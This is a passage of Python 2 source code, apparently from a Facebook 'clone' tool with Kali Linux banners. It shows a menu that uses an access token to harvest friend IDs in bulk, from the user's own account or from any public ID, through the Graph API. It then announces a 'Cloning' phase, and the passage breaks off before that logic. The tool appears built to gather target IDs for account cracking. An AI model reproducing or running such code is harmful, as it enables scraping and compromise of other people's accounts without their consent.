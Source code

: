	print "\033[1;92m-•◈•-\033[1;91m> \033[1;92m2.\x1b[1;91mClone Friend List Public ID."
	print "\033[1;92m-•◈•-\033[1;91m> \033[1;92m0.\033[1;92mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;91mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mKali.linux\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
		jalan('\033[1;93mGetting IDs \033[1;93m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;92m[•◈•] \033[1;92mEnter ID\033[1;93m: \033[1;95m")
		print "\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mKali.linux\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;92mID Not Found!"
			raw_input("\n\033[1;92m[\033[1;91mBack\033[1;92m]")
			super()
		print"\033[1;93mGetting IDs\033[1;92m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))
	jalan('\033[1;92mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;92m«--•◈••◈•---\x1b[1;93m•◈•Stop Process Press CTRL+Z•◈•\033[1;92m---•◈••◈•-»"
	print "\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mKali.linux\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	jalan(' \033[1;93m🔎🔎🔎🔎🔎🔎🔎\033[1;94mCloning Start..\033[1;93m🔍🔍🔍🔍🔍🔍🔍 ')
	print "\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mKali.linux\033[1;91m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"
	